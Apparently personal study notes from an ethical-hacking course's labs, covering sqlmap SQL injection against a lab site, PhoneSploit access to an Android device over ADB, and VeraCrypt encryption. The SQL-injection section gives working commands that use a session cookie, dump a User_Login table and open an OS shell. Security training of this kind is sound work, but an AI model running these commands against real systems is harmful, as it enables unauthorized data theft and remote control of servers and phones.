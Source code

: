 **Module 15: SQL Injection**

**Lab1-Task2: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap**

- Login a website
- Inspect element
- Dev tools-\&gt;Console: document.cookie
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; –dbs**
  - **-u: Specify the target URL**
  - **--cookie: Specify the HTTP cookie header value**
  - **--dbs: Enumerate DBMS databases**
- Get a list of databases
- Select a database to extract its tables
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; -D moviescope –tables**
  - **-D: Specify the DBMS database to enumerate**
  - **--tables: Enumerate DBMS database tables**
- Get a list of tables
- Select a column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; -D moviescope –T User\_Login --dump**
- Get table data of this column
- **sqlmap -u &quot;http://www.moviescope.com/viewprofile.aspx?id=1&quot; --cookie=&quot;value&quot; --os-shell**
- Get the OS Shell
- TASKLIST

**Module 17: Hacking Mobile Platforms**

**Lab 1-Task 4: Exploit the Android Platform through ADB using PhoneSploit**
- cd Phonesploit
- python3 -m pip install colorama
- python3 phonesploit.py
- 3
- 10.10.10.14
- 4
- pwd
- cd sdcard
- cd Download

**Module 20: Cryptography**

**Lab1-Task2: Calculate MD5 Hashes using MD5 Calculator**

- Nothing special

**Lab4-Task1: Perform Disk Encryption using VeraCrypt**

- Click VeraCrypt
- Create Volumn
- Create an encrypted file container
- Specify a path and file name
- Set password
- Select NAT
- Move the mouse randomly for some seconds, and click Format
- Exit
- Select a drive, select file, open, mount
- Input password
- Dismount
- Exit
